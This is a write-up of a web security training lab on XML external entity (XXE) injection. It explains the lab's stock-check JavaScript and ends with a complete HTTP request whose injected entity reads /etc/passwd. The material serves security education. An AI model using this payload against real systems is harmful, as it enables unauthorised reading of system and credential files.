




# Exploiting XXE using external entities to retrieve files

```
❓

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.
```

For this lab I start off with typical test of the webpage to get a general idea of it’s functionality, one of products contains a `Check stock` button, which sends out the following request:





***XML Generation Request/Response***

### **Code Breakdown**

### **1. Setting ****`contentType`****:**

```javascript
window.contentType = 'application/xml';

```

- **Purpose**: Sets the global `contentType` variable to `application/xml`. This indicates that the subsequent payload will be sent as XML.
- **Context**: Often used in HTTP headers (e.g., `Content-Type`) to inform the server of the data format being sent.

---

### **2. Function Definition (****`payload`****):**

```javascript
function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<stockCheck>';
    ...
    xml += '</stockCheck>';
    return xml;
}

```

- **Purpose**: Dynamically generates an XML string based on key-value pairs provided in `data`.
- **Parameter**: `data` is expected to be a `FormData` object or similar iterable that contains key-value pairs.

---

### **3. Adding the XML Declaration:**

```javascript
var xml = '<?xml version="1.0" encoding="UTF-8"?>';

```

- **Purpose**: Begins the XML document with a standard declaration.
- **Content**: Specifies the XML version (`1.0`) and the character encoding (`UTF-8`).

---

### **4. Root Element ****`<stockCheck>`****:**

```javascript
xml += '<stockCheck>';
...
xml += '</stockCheck>';

```

- **Purpose**: Defines the root element of the XML document, `<stockCheck>`, which wraps all subsequent elements.

---

### **5. Iterating Over ****`data.entries()`****:**

```javascript
for(var pair of data.entries()) {
    var key = pair[0];
    var value = pair[1];

```

- **Purpose**: Iterates over the key-value pairs in the `data` object.
- **`data.entries()`**:
  - Returns an iterator for `[key, value]` pairs.
  - Commonly used with `FormData`, which stores form input fields.

---

### **6. Adding Key-Value Pairs to XML:**

```javascript
xml += '<' + key + '>' + value + '</' + key + '>';

```

- **Purpose**: For each key-value pair:
  - Dynamically creates an XML tag using the key (e.g., `<key>`).
  - Wraps the corresponding value inside the tag (e.g., `<key>value</key>`).
- **Example Input**:
  - Key: `productId`, Value: `2`.
  - Result: `<productId>2</productId>`.

---

### **7. Returning the Complete XML:**

```javascript
return xml;

```

- **Purpose**: Returns the constructed XML string.

---

### **Example Usage**

### Input:

```javascript
var data = new FormData();
data.append('productId', '2');
data.append('storeId', '1');

var xmlPayload = payload(data);
console.log(xmlPayload);

```

### Output:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>2</productId>
    <storeId>1</storeId>
</stockCheck>

```

---



***Stock Check Request/Response***

 This JavaScript code dynamically handles form submissions for checking stock levels. When the user submits the form, it prevents the default action and sends an HTTP request using the form's method, action, and data. The `checkStock` function sends the request, retries up to three times if it fails, and updates the page with the stock level or an error message. The payload is serialized as XML, and the response is processed to display either the stock quantity or a message indicating failure. The script ensures a smooth user experience by dynamically updating content without refreshing the page.

---



*Product Stock Result Request/Response*

Lastly we get the final POST request to the server which the server processes the request, validates the XML payload, queries the backend system (likely a database), and returns the relevant stock information (`32`). This is a normal response for such requests.

```bash
POST /product/stock HTTP/2
Host: 0aaa00a7037428d68000ee6000b20021.web-security-academy.net
Cookie: session=xV7KeR7YkvnChFwBpvugZAomvxIs4RyU
Content-Length: 107
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://0aaa00a7037428d68000ee6000b20021.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aaa00a7037428d68000ee6000b20021.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>2</productId>
		<storeId>1</storeId>
	</stockCheck>
```

Since the server does not validate nor sanitize the XML payload, the request is vulnerable to XXE allowing attackers to access sensitive files or cause a denial of service. For example, an attacker could inject a malicious payload like:

```bash
POST /product/stock HTTP/2
Host: 0aaa00a7037428d68000ee6000b20021.web-security-academy.net
Cookie: session=xV7KeR7YkvnChFwBpvugZAomvxIs4RyU
Content-Length: 107
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://0aaa00a7037428d68000ee6000b20021.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aaa00a7037428d68000ee6000b20021.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
